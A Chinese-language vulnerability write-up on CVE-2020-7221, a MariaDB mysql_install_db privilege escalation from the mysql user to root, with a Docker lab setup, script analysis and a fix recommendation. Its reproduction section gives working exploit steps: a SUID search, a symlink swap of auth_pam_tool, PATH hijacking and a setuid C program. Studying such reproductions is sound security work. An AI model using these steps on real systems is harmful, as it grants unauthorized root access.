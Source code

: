 （CVE-2020-7221）Mariadb 提权漏洞
=================================

一、漏洞简介
------------

MariaDB
10.4.7到10.4.11中的mysql\_install\_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth\_pam\_tool\_dir
/ auth\_pam\_tool的chmod
04755的symlink攻击所证明的那样。注意：这不会影响Oracle
MySQL产品，该产品以不同的方式实现mysql\_install\_db。

二、漏洞影响
------------

Mariadb 10.4.7到10.4.11

三、复现过程
------------

#### docker环境搭建：

1.  docker pull mariadb:10.4.8

2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

    find / -name "mysql_install_db"

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId26.png)

在bash脚本上下文中，如果\$user被定义则能进入「配置不当」漏洞点。

    chown $user "$pamtooldir/auth_pam_tool_dir"

    chmod 0700 "$pamtooldir/auth_pam_tool_dir"

这里配置了auth\_pam\_tool\_dir目录的归属权和所有权，权限归属于\$user。
（这里是可控点之一）

    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"

这里配置了auth\_pam\_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要\$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 \$srcdir 与 \$user

1.  \$user

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId28.png)

在脚本传递args参数时可控制\$user变量。

1.  \$srcdir

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId29.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要\$srcdir为空，\$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

    ./mysql_install_db --user=mysql

#### 漏洞复现

寻找suid属性的程序

    find /* -perm -u=s -type f 2>/dev/null

搜索到的suid属性程序「auth\_pam\_tool」替换成我们的恶意suid程序。

    1. rm auth_pam_tool
    2. ln -s /root/pwn auth_pam_tool
    3. export PATH=.:$PATH
    4. ln -s /bin/bash ps

编写一个具有suid权限的恶意程序：

    #include <unistd.h>
    #include <stdlib.h>
    int main(void)
    {
        setuid(0);
        setgid(0);
        system("ps");
        return 0;
    }

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId31.png)

切换回root，在root权限下运行mysql\_install\_db脚本（触发修改chmod命令）

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId32.png)

再回到mysql用户权限下执行auth\_pam\_tool

![](./.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId33.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth\_pam\_tool\_dir目录权限为root所有：

    root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um>
